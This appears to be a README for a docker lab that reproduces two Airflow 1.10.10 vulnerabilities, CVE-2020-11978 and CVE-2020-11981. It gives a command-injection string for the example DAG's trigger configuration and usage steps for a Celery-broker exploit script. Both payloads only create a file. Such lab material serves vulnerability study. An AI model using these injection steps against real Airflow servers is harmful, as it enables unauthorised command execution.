 # Airflow 1.10.10 Multiple Vulnerability Exploits

[中文版本(Chinese version)](./README.zh-cn.md)

Airflow is an open source, distributed task scheduling framework. It assembles a workflow with subordinate and subordinate dependencies into a directed acyclic graph.

The 1.10.10 docker-compose file is modified from the docker-compose file provided by airflow 2.x.

Airflow configuration uses CeleryExecutor for task execution, so the command execution result needs to be viewed in the CeleryWorker  container.

Since there are many components to be started, it may be a bit stuck. Please prepare more than 2G of memory for the use of the virtual machine.

## Vulnerability Environment

Execute the following commands to start airflow 1.10.10

```bash
#Initialize the database
docker-compose run airflow-init initdb
#Start service
docker-compose up -d
```

## Exploits

### CVE-2020-11978 - RCE/command execution in example dag

Visit `http://host:8080` to enter the airflow management terminal, and change the Off in front of `example_trigger_target_dag` to On:

![image-20210701142307744](README.assets/image-20210701142307744.png)

Then click the Triger button and enter in `Configuration JSON`: `{"message":"'\";touch /tmp/airflow_dag_success;#"}`, then click `Trigger` to execute dag

![image-20210701142758977](README.assets/image-20210701142758977.png)

Wait a few seconds to see the execution of `success`

![image-20210701142948275](README.assets/image-20210701142948275.png)

Go to the CeleryWorker container to view:

```
docker-compose exec airflow-worker ls -l /tmp
```

You can see that the airflow_dag_success file was successfully created:

![image-20210701154024308](README.assets/image-20210701154024308.png)

### CVE-2020-11981 - Command injection via Celery broker

Airflow uses Celery version 4.0 or higher, so it cannot be exploited through pickle deserialization vulnerability, but it can execute any command by issuing the `airflow.executors.celery_executor.execute_command` task for starting the task. The parameter is the command execution. The required array in.

The exploit script `exploit_airflow_celery.py` only supports use under python3, and the command `touch /tmp/airflow_celery_success` is executed by default

```
pip install redis
python exploit_airflow_celery.py [HostIP]
```

View Results:

```bash
docker-compose logs airflow-worker
```

You can see the following task messages:

![image-20210701153205499](README.assets/image-20210701153205499.png)

```
docker-compose exec airflow-worker ls -l /tmp
```

You can see that the file `airflow_celery_success` was successfully created

![image-20210701153237894](README.assets/image-20210701153237894.png)

## Reference

https://docs.celeryproject.org/en/stable/userguide/configuration.html

https://www.bookstack.cn/read/celery-3.1.7-zh/8d5b10e3439dbe1f.md#dhfmrk

https://docs.celeryproject.org/en/stable/userguide/calling.html#serializers

https://www.jianshu.com/p/52552c075bc0

https://www.runoob.com/w3cnote/python-redis-intro.html

https://blog.csdn.net/SKI_12/article/details/85015803
